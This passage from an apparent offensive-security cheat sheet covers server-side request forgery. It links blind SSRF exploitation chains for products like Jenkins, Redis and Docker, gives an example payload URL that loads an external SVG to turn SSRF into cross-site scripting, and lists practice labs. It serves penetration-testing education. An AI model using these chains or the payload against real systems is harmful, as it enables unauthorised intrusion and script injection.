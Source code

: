 Refer to the SSRF Advanced Exploitation to explore the `gopher://` protocol deeper.


## Blind Exploitation

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read. 

Use an SSRF chain to gain an Out-of-Band output: [assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)

**Possible via HTTP(s)**

- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
- [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
- [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**

- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)


## Upgrade to XSS

When the SSRF doesn't have any critical impact, the network is segmented and you can't reach other machine, the SSRF doesn't allow you to exfiltrate files from the server.

You can try to upgrade the SSRF to an XSS, by including an SVG file containing Javascript code.

```bash
https://example.com/ssrf.php?url=http://brutelogic.com.br/poc.svg
```


## Labs

* [PortSwigger - Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
* [PortSwigger - Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
* [PortSwigger - SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
* [PortSwigger - SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
* [PortSwigger - SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
* [Root Me - Server Side Request Forgery](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)
* [Root Me - Nginx - SSRF Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-SSRF-Misconfiguration)
